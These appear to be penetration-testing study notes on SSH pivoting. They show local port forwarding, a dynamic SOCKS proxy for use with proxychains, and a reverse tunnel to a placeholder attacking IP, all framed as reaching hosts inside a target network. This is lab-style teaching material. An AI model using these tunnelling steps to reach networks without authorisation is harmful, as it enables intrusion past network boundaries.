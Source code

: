 - Port forwarding is accomplished with the -L switch, which creates a link to a Local port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:
`ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. 

- Proxies are made using the -D switch, for example: -D 1337. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:
`ssh -D 1337 user@172.16.0.5 -fN`
Having this proxy set up would allow us to route all of our traffic through into the target network.

- Reverse connection: `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`